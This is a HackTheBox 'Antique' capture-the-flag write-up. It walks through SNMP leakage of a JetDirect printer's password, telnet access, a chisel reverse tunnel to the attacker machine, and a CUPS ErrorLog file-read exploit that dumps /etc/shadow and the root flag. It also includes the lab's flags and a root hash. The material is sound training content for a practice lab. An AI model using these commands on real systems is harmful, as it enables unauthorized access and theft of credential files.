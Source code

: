 ```yaml
---
title: Antique writeup
date: 2022-06-17 12:00:00 +0200
categories: [Writeup, HackTheBox]
tag: ["Easy-box"]
img_path: /assets/img/boxes/antique/
toc: true
image:
  src: Antique.png
  width: 1000   # in pixels
  height: 400   # in pixel
---
```

## Summary
This box is centered around exploiting a misconfigured HP JetDirect printer via snmp. It also covers port forwarding an exploiting the [CUPS](https://en.wikipedia.org/wiki/CUPS) service, which is a modular printing service for Unix-like computer systems. Let's take a look!

## Foothold
starting an nmap scan, we see a telnet service on port 23. It says something about HP jetdirect when trying to connect to it via telnet.

we also do a UDP scan on the address, with the -sU tag. This takes a while

The only port open and unfiltered besides telnet is 161/udp:
```console 
# Nmap 7.92 scan initiated Sat Jun 11 00:39:54 2022 as: nmap -sU -sC -sV -o nmap/udp.txt 10.129.71.148
Nmap scan report for 10.129.71.148
Host is up (0.025s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT      STATE         SERVICE VERSION
68/udp    open|filtered dhcpc
161/udp   open          snmp    SNMPv1 server (public)
40441/udp open|filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 11 00:59:53 2022 -- 1 IP address (1 host up) scanned in 1198.94 seconds
```

running `snmpwalk -v 1 -c public $IP` reveals its a printer named HTB Printer. Since the only available entrypoint seems to be this printer, we better find out how to exploit it. [This](http://www.irongeek.com/i.php?page=security/networkprinterhacking) blogpost goes into a lot of detail on how exploit a HP jetdicrect printer which has not been configured correctly. Basically, if the right string is sent to the printer it will respond with its own password.

This can be exploited with the following command:
```console
snmpwalk -v 1 -c public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```
This returns some hexcodes. decoding this shows a password:
P@ssw0rd@123!!123

Log in to the telnet service with this password

Once logged in to the telnet service, the `exec id` command can be used to find who we are connected as. We can see that we are the user lp, within the lpadmin group. To get a reverse shell, simply prepend exec to any reverse shell payload you want to use. Most should work.

userflag:f48580e6c8557d0426e3413517504121

## Privilege escalation
we run `ss --tulnp` and get the following:

```console
lp@antique:~$ ss -tulnp
ss -tulnp
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process                                                                         
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*                                                                                      
udp     UNCONN   0        0                0.0.0.0:161           0.0.0.0:*                                                                                      
tcp     LISTEN   0        128              0.0.0.0:23            0.0.0.0:*       users:(("python3",pid=1150,fd=3))                                              
tcp     LISTEN   0        4096           127.0.0.1:631           0.0.0.0:*                                                                                      
tcp     LISTEN   0        4096               [::1]:631              [::]:*                                                                                      
lp@antique:~$ 
```
the interesting part of this output is that the machine is listening on port 631 since this port did not show up on our scans.
I will use chisel to set up a listening port on my machine which i can then use to communicate with port 631 on the target machine

on the attacker machine we run the following command: `./chisel server --reverse -p 8000`

on the victim machine: `./chisel client 10.10.17.182:8000 R:8001:127.0.0.1:631`


output of chisel server once connection has been esablished:
```console
./chisel server --reverse -p 8000
2022/06/11 01:27:02 server: Reverse tunnelling enabled
2022/06/11 01:27:02 server: Fingerprint gV7xDnh1btaUqoCrX8/mA9qgIZzsnrA2m1TEsRKLmO0=
2022/06/11 01:27:02 server: Listening on http://0.0.0.0:8000
2022/06/11 01:30:19 server: session#1: tun: proxy#R:8001=>631: Listening
```
when visiting localhost:8001 in our browser we get greeted with the following page
![Cups service landing page](port631.png){: width="972" height="589" }

searching for exploits in cups 1.6.1 leads us to the following link <https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/>

We can read files as root through the error log page on cups through the error log path.

To change the path we need to use cupsctl. See below

```console
p@antique:~$ cupsctl 'ErrorLog'=/etc/shadow
cupsctl 'ErrorLog'=/etc/shadow
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   999  100   999    0     0   975k      0 --:--:-- --:--:-- --:--:--  975k
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
---SNIP---
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```

We can of course crack the root hash and login as root, however we can also just change the error log path to /root/root.txt and read the root flag:

```console
lp@antique:~$ cupsctl "ErrorLog"=/root/root.txt
cupsctl "ErrorLog"=/root/root.txt
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  33000      0 --:--:-- --:--:-- --:--:-- 33000
41a5b5db9f352acb5da454924de84bea
lp@antique:~$ 
```
